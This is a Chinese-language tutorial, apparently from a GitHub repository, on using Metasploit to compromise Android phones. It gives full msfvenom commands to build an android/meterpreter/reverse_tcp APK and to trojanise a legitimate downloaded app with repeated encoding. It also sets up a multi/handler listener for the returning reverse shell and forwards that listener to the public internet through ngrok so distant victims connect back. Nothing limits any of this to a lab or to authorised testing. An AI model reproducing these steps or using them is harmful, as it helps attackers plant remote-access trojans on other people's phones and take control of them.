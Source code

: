 # MSF对于安卓的渗透

----

## 内网渗透-生成木马

我们使用`msfconsole`命令进入MSF渗透框架

MSF启动会稍微需要点时间，大概半分钟到一分钟

我们进入MSF后

在`msf6 >_` 终端内输入`show payloads`查看所有攻击载荷

这时，它会弹出一堆攻击载荷，我们回滚到上面，看到第六条

![1](img/1.png)

`payload/android/meterpreter/reverse_tcp`

我们使用（use）这个攻击载荷

`use payload/android/meterpreter/reverse_tcp`

之后我们输入`show options`命令查看需要设定的参数

![2](img/2.png)

我可以看到我们需要设置的是`LHOST |  LPORT`两个参数

**开始生成木马**

之后我们打开一个普通终端

使用`msfvenom`命令来生成木马

用法如下

`msfvenom -p （你需要的攻击载荷）android/meterpreter/reverse_tcp  （设置参数，譬如） LHOST=你的ip LPORT=随便一个你本机的空闲端口 R > 生成的名字.apk`

我们使用`ifconfig`命令查看自己在局域网内的IP

![3](img/3.png)

我们可以看到，我的局域网IP为**192.168.10.114**

所以我们这样填

`msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.10.114 LPORT=9999 R > 000.apk`

![4](img/4.png)

可见，我们生成成功！

----

## 给一个正常可用的软件植入木马

我们在网络上下载一个可用的app，假设这个apk叫 **nihao.apk**

我们进入存在这个apk的目录下，使用下面的指令

`msfvenom -p android/meterpreter/reverse_tcp -x nihao.apk -i 12 LHOST=192.168.10.114 LPORT=9999 R > 123.apk`

该命令的意思是，将Android/meterpreter/reverse_tcp这个攻击载荷，植入到一个名为nihao.apk的文件里，并执行编码12次，打开软件后，向LHOST这个IP+LPORT这个端口反弹一个Shell，生成出来的文件为123.apk（生成于该目录下）

如果它提示你出错，大概率是因为你没安装apktool（反汇编软件），kali不自带这个软件，所以我们需要使用如下命令来安装

`sudo apt install apktool`

----

## 监听返回的Shell

我们在msfconsole渗透框架内输入

`use exploit/multi/handler`

来载入攻击，之后我们需要设置LHOST与LPORT参数

`set LHOST 上面生成木马使用的LHOST`

`set LPORT 上面生成木马使用的空闲端口`

如下图

![5](img/5.png)

之后我们输入`exploit`即可开始监听

![6](img/6.png)

当有Shell返回时，它将会返回如下信息代表成功

`meterpreter >_` 

而这里可供你输入恶意命令，我们可以输入help得到每条命令的详细介绍

----

## 公网渗透

**公网而言，不过是一个巨大的局域网罢了**

- [ x ] 使用到ngrok内网穿透

我们安装好ngrok后，使用如下命令转发tcp流量

`./ngrok tcp 9999`

 这个命令就是把你本机127.0.0.1（计算机里，“我”的意思）空闲的9999端口转发到公网

此时等待，ngrok会返回类似这样的东西

绿色代表成功，红色代表超时

`tcp://xxx.nihao.xxx.github.io:12892 => localhost:9999`

其中localhost的意思是就是本机-127.0.0.1的意思

之后我们在msfvenom里生成木马时，LHOST需要填写的则是`xxx.nihao.xxx.github.io`了，而LPORT应该填写的则是`12892`

**但是请注意！**

我们在msf监听返回shell时，我们需要把LHOST设置监听为127.0.0.1，而LPORT则设置为你转发出去的空闲端口，而不是Ngrok提供的IP与端口！！！
